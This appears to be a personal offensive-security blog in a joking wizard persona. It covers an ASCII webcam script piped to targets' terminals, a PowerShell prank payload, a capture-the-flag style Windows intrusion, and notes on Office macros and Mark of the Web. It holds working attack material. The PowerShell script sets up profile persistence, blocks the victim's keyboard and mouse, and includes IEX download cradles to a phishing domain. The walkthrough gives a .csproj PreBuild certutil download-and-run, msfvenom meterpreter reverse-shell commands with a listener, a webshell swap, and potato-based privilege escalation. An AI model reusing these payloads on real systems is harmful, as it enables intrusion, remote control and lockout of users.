

Pondering the first orb

Hello fellow purveyor of the cyber arts. This is a rough collections of a wizards journey.
Some minor lexicon confirmation is below
| Color | Role |
|---|---|
| RED | Offensive Focus |
| BLUE | Defensive Focus |
| GREEN | Development Focus |
| GREEN | Infrastructure Focus |
| PURPLE | RED & BLUE Focus |
| BLACK | Forbidden Wizard Magics |
Well updates abound but where to start
- Feb 09 2024 A wizards life can sure take some turns. The mages judiciary has been making this wizards life hell. I am forbidden from casting my type of spells until they finish there magical investigation... Which is taking forever, But to quite another wise mage "This too shall pass" However, it has been a great time to just mess around casting some apprentice incantations and improve my ability in other forms of casting. Soon I shall master Win32API, and I hope to get my OSCE^3. Another badge to add to my Casting Certifications.
The First Tome, Trolling via Terminal
Spell Class : Red Magic
Spell Level : Introduction
ASCII-WEB
After watching twitch streamer LCOLNQ who used an ASCII rendered webcam. What if we can render video to Terminal for a cyber effect. Below is the python used to render the video output of a webcam in to Grayscale and then turning grayscale brightness into ASCII characters which get rendered with cureses
import cv2
import curses
from curses import wrapper
import math
def main(screen):
scale = 0.2
contrast = 2
screen.clear()
cap = cv2.VideoCapture(0)
if not cap.isOpened():
raise IOError("Cannot open Webcam stream!")
while True:
# Capture from webcam
ret, frame = cap.read()
# Resize Frame
frame = cv2.resize(frame, None, fx=scale, fy=scale, interpolation=cv2.INTER_AREA)
width = len(frame[0])*2
# Convert to Grayscale (0 - 255)
gscale = []
for i, b in enumerate(frame):
for x, a in enumerate(b):
sum = a[0] + a[1] + a[2]
sum /= 3
sum *= contrast
sum = int(sum)
gscale.append(sum)
gscale.append(sum)
# Covert Gray to ASCII
#color = "$@B%8&WM#*oahkbdpqwmZO0QLCJUYXzcvunxrjft/\\|()1{}[]?-_+~<>i!lI;:,\"^`'."[::-1]
#color = "0QLCJUYXzcvunxrjft/\\|()1{}[]?-_+~<>i!lI;:,\"^`'. "[::-1]
color = "@%&$#!;:*\,. "[::-1]
colorArray = list(color)
colorlength = len(colorArray)
interval = colorlength/256
chars = ["@", "%", "&", "$", "#", "*", "&", "~", ":", ".", " "]
chars.reverse()
ascii_px = [chars[pixel//25] for pixel in gscale]
#ascii_px = [colorArray[math.floor(pixel*interval)] for pixel in gscale]
ascii_px = ''.join(ascii_px)
ascii_frame = [ascii_px[index:index+width] for index in range(0, len(ascii_px), width)]
# Display Image in Terminal
for l, x in enumerate(ascii_frame):
try:
screen.addstr(l, 0, x)
except:
pass
screen.refresh()
cap.release()
return
wrapper(main)
Added other character lists that can be used but the one on right now just looks the best.
So the way it stands right now using socat we can pipe the program over TCP for remote playing. IE you can just host your webcam to a target box.
sudo socat TCP4-LISTEN:80 EXEC:"python3.11 ./ascii-web.py"
Clarity of the terminal is based off your host font size. Which is strange.
For the target box we can just use a netcat to grab the output of said
Upgraded socat hosting?
socat -d TCP4-LISTEN:80,reuseaddr,fork EXEC:"python3.11 ./ascii-web.py"
Idea here is to allow the process to get forked. However I am also not sure if that is a good idea. Might allow the computer to be resource attacked by a bunch of connections just ZERG rushing it.
Below is recon for PTS terminal windows
who -a;echo""; ps -aux | grep ".*pts.*"
Here is what the poor blue team would see waving back to them on a Terminal that they cannot clear! The only option is to kill the shell.

Powershell Hexing for Rookies
Spell Class : Black Magic
Spell Level : Introduction
This was a very bad working PoC about powershell lock outs and doing some direct DLL manipulation.
Below is a .ps1 script that would drop this below script, A video, and a dumb beacon.
The goal of this was to act as a Hacktavist or some skid effect on a computer. It was very dumb but it was a perfect payload to mimic low skill and low complexity attack.
How it works
-
So first it attempts to find itself and adds that into the a profile.
-
It then add the .NET class to the current powershell session. That .Net class being presentationCore. I dont think I even used it looking back on this.. Real head scratcher....
-
We find our payload file which is a dumb downloaded youtube video. Following that I bind a new-object which is the Windows Media Player.
-
I then have the Windows media player Open the Media file, Then close the file. At the time I did this to solve a bug in the way it opens files.
-
Working with the proc var I made it brings the Windows MediaPlayer and plays the video.
-
Now we see the DLLImport for user32.Dll I am calling very poorly the BlockIt function. Setting that to true disables all user32 input. Mouse, Keyboard, Touchscreen and anything else handled on the user.
-
We see some mocking of the user and a sleep timers for 86 seconds. Once that is finished we return the BlockInput to false and fire off two CS beacons that are laying in wait online.
$filethingy = (Get-Childitem -Path C:\ -Recurse -ErrorAction SilentlyContinue | where {$_.Name -match 'memoryfixer.ps1'}).FullName
$content = Get-Content -Path $filethingy
if (!(Test-Path $profile)) {
New-Item -ItemType File -Path $profile -Force
Set-Content -Path $profile -Value $content
}else {
Set-Content -Path $profile -Value $content
}
Set-CoAdd-Type -AssemblyName presentationCore
$filepath = "C:\Windows\Temp\trap.mp4"
$wmplayer = New-Object System.Windows.Media.MediaPlayer
$wmplayer.Open($filepath)
Start-Sleep 1
$duration = $wmplayer.NaturalDuration.TimeSpan.Seconds
$wmplayer.Close()
start playing
$proc = Start-process -FilePath "C:\Program Files (x86)\Windows Media Player\wmplayer.exe" -ArgumentList $filepath -PassThru
# This Bit locks the user out for 86 seconds
$code = @'
[DllImport("user32.dll")]
public static extern bool BlockInput(bool fBlockIt);
'@
$userInput = Add-Type -MemberDefinition $code -Name Blocker -Namespace UserInput -PassThru
$null = $userInput::BlockInput($true)
Write-Warning "You have just fell for the trap..."
Start-Sleep -Seconds 86
$null = $userInput::BlockInput($false)
Set-StrictMode -Version 2
#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/traptime'))"
#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/.exe'))"
#Runs above payloads
Once again this is very low and very poor. I wanted to throw this away but all information has value to someone and as such I hope you find some value in this poorly crafted spell. Good news however is it means we can work from here and build something far far worse now that we can get into the concept of ASM and maybe some malicious payloads.
Embedded systems and you
I am strung between many things at this point in my life. Listed as Armed and Dangerous, Fugitive wizard at large. Spending some time in the dungeons and finally getting to have my time before the tribunal was a great time to focus my wildly attention. I feel stronger and sharper as of late. Like I have a direction to follow once again. That direction has been pushing to delve once again into the topics I do not understand.
The dreaded art of Embedded Systems.
Lets thrown on some Time Fragment - 装甲艦 and learn some strangeness.
Getting I had to order from the mages guild some ESP8266's, ESP32's, and some digikey sparks. With my small boards I had to learn about some rather simple but obscure knowledge.
Inscriptions for an inscriber
A small bit of magic works between the main chip on the board and your computer. This might be a CH340 or INSERT OTHER HERE
What these little dude do for you is convert between USB (Your Computer) and Serial (The ESP32, ESP8266 or whatever). This is our friend but we must know which friend we need to learn to speak with. I found out by asking my system.

Using sudo lsusb -t you can get the above. I know I have ch341 that is handling that communication. I can also double check that I am able to see this device by looking in DEV.

Using ls /dev and I can see the ttyUSB0 device which would be present due to the UART to USB CH341 chip.
Arduino the savior for beginning
Moving into the space of we understand our chip and our interface tool. We can now begin to attempt and pass instructions to this chip which should relay that to the ESP8266 in my situation.
yay arduino was all it took for me to install Arduino, if you are not using pacman or yay please find your own solution to this issue.
Git with vengeance
Build a solution from Visual Studio code. C# project will do.
Right click on the project and go to the build section.
Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at *.csproj

Utilizing the PreBuild tag, the Exec command = PAYLOAD
First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue.
Need to change from powershell reverse shell into a MSFpayload with metasploit
 Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.
Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
<Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe
c:\users\public\plz.exe" />
This is how inside the .csproj we get the payload to fire.
Payload was
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe
Listener was
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"

This is the server yanking the files from me and finally executing my staged payload.
Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with
Doing
C:\ dir /B /S index.php
We can find the Area for the webpage we have been interacting with

From here we can replace the submit.php file with a php webshell
From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port.

From here we can use the webshell we moved onto the box. Browse to the /submit.php

We now have the access level of 
Nice but not quite what we need. Working with dabois we found FullPower.exe
https://github.com/itm4n/FullPowers
On Windows, some services executed as LOCAL SERVICE or NETWORK SERVICE are configured to run with a restricted set of privileges. Therefore, even if the service is compromised, you won't get the golden impersonation privileges and privilege escalation to LOCAL SYSTEM should be more complicated. However, I found that, when you create a scheduled task, the new process created by the Task Scheduler Service has all the default privileges of the associated user account (except SeImpersonate). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.
So once we run that we now have the ability to gain SEimpersonate YIPEEE
Now using Tylers WICKED updated SIGMA POTATO https://github.com/tylerdotrar/SigmaPotato Which he lovingly built in with a revshell.
FullPower.exe; SigmaPotato.exe --revshell IP PORT

YEEEEE
Wizards jade
Hello apprentices of all ages. Let us take for a minute and thank those that came before. Wizards of Yore left us the ability to cast into all of time our thoughts. What a blessing it is. Anyway poetic waxing out of the way.
Crafting some payloads for Microsoft Office can take many forms. With the advancements made by Windows we now have the Mark of the Web (MOTW) Here we can see the first line of defense protecting users from the most basic of Phishing, Granted this is only in effect if the Defender of said network have disabled the now DEFAULT setting of alerting users of Windows Macros that do not come from internal emails, domain locations or with certs signed by some internal team.
This must be disabled as it is now enabled by DEFAULT!!
Let us deconstruct these incantations,
In the above picture we can see an example of the dreaded ZoneId=3
- ZoneId=0: Local machine.
- ZoneId=1: Local intranet.
- ZoneId=2: Trusted sites.
- ZoneId=3: Internet.
- ZoneId=4: Restricted sites.
MSDN in its classic Necronomicon like nature will hint but never outright tell us the dang answer. https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms537183(v=vs.85)
But we can see the structure is the same as the methods used for Safe internet browsing.